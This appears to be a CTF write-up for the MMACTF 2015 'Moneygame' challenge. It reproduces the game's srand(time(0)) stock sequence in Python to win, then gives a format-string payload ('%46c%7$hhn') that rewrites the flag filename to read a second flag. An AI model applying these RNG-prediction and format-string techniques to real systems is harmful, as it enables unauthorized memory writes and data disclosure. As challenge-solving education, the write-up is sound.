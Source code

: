 ```yaml
---
layout: post
title: "MMACTF 2015 - Moneygame Writeup"
date: 2015-09-07 18:03:59
categories: CTF Writeup
---
```


We are presented with a stock market game. We have to time the market just right in order to get 10x our initial cash pile. Psh.. easy peasy

{% highlight ruby %}
Week #1: 
You have $10000.00!
Stock #1: $100.00 (You have 0.)
Stock #2: $100.00 (You have 0.)
Stock #3: $100.00 (You have 0.)
Action (Buy/Sell/Rest) [Rest] : Buy
Which stock do you want to buy? (1-3) [1]: 1
How many stocks do you want to buy? (0-100) [0]: 100


Week #2: 
You have $0.00!
Stock #1: $103.16 (You have 100.)
Stock #2: $91.44 (You have 0.)
Stock #3: $92.64 (You have 0.)
Action (Buy/Sell/Rest) [Rest] : 
{% endhighlight %}

Taking a look at the binary, we see that the numbers are generated from an `srand(time(0))`. This is great for us, since we can create the same random number sequence on our end, thus negating the "random" factor of the stocks.

![srand.png](/assets/images/srand.png)

## Quick aside

There is a print function that clears the screen in the binary. This only allowed for one week of stocks to be seen at one time. This was quite annoying for debugging. Let's remove that functionality by patching over a call to `printf()`. Patching over it is a breeze with [binjitsu](http://www.github.com/binjitsu/binjitsu).

{% highlight python %}
from pwn import *

elf = ELF('moneygame')

# NOP out annoying print that clears screen
# call printf is 5 bytes
for addr in (0x80487b3, 0x80487b8):
    elf.asm(addr, 'nop')

elf.save('moneygame-patched')
{% endhighlight %}

Now, `moneygame-patched` can use used locally without the annoying screen clear. Now to the actual write-up

## Flag 1

With the help of Python's ctypes, generating random numbers on our end is trivial:

{% highlight python %}
from ctypes import CDLL
libc = CDLL('libc-2.19.so')

# Seed srand with time(0)
now = int(floor(time.time()))
libc.srand(now)

random_num = libc.rand()
{% endhighlight %}

From here, we replicate the same function that creates the stocks from the binary in Python:

{% highlight python %}
def set_stocks():
    '''Create stocks based on current srand'''
    for index in xrange(1, 4):
        stocks[index].append(10000)

    for _ in xrange(54):
        for index in xrange(1, 4):
            curr_stock = stocks[index][-1]

            # Use of libc's rand in Python
            curr_stock += libc.rand() % 2001 - 1000
            if curr_stock <= 4999:
                curr_stock = 5000
            if curr_stock > 15000:
                curr_stock = 15000

            stocks[index].append(curr_stock)
{% endhighlight %}

Now that we have our three stock listings, we have to determine the optimal buy/sell path to success.

The quick and dirty method I used is described below:

* Calculate the peaks and valleys of each stock listings
* Calculate the largest profit margins for each stock using the peaks and valleys
* Sort all profit margins together
* Attempt to fill the 54 weeks based on the profit margins

An example of the last step of this simple algorithm is below:

The top three profit margins:
{% highlight python %}
[4, 6, 100, '1'] Stock 1 from week 4 to 6 yields 100
[7, 9, 80,  '3'] Stock 3 from week 7 to 9 yields 80
[1, 5, 50,  '2'] Stock 2 from week 1 to 5 yields 100
{% endhighlight %}

Starting with the most profitable, fill in our available actions:
{% highlight python %}
[4, 6, 100, '1'] Stock 1 from week 4 to 6 yields 100

Actions: ['', '', '', '', 'Buy stock1', 'Rest', 'Sell stock1', '', '', '']
{% endhighlight %}

Second most profitable:
{% highlight python %}
[7, 9, 80,  '3'] Stock 3 from week 7 to 9 yields 80

Actions: ['', '', '', '', 'Buy stock1', 'Rest', 'Sell stock1', 'Buy stock3', 'Rest', 'Sell stock3']
{% endhighlight %}

Our third most profitable overlaps and existing range i.e. the [4, 6, 100, '1']. In this case, fill as much as we can before the start of the existing range.
Note: This is not optimal. Bigger improvements can be made, but are not necessary.
{% highlight python %}
[1, 5, 50, '2']

# Note: 1 - 5 overlaps into existing 4 - 6, Try to go as far as we can before selling.
Actions: ['', 'Buy stock2', 'Rest', 'Sell stock2', 'Buy stock1', 'Rest', 'Sell stock1', 'Buy stock3', 'Rest', 'Sell stock3']
{% endhighlight %}

Now that we have our optimal actions, we simulate these actions in order to determine if the actions result in a bank of $100k. We don't want to waste time with the server, if we know ahead of time that we can lose.

Once we determine that we can win, we simply throw our results at the server and retrieve the first flag.

## Flag 2

There is a string format vulnerability in the name field of the high score after winning the game. After winning the game, the binary grabs the filename of the flag `flag1`, reads the contents of the file, and returns the contents to the user. We are given that the second flag is named `flag2`, so we can use the string format to simply change the filename from `flag1` to `flag2`. 

{% highlight python %}
# Located at offset 7 on the stack
# 0x804a2b4 = 'flag1'
# 0x804a2b8 = '1'
# '2' == 50
# Padding necessary -> 50 - 4 bytes of address = 46
shellcode = p32(0x804a2b8) + '%46c%7$hhn'
{% endhighlight %}
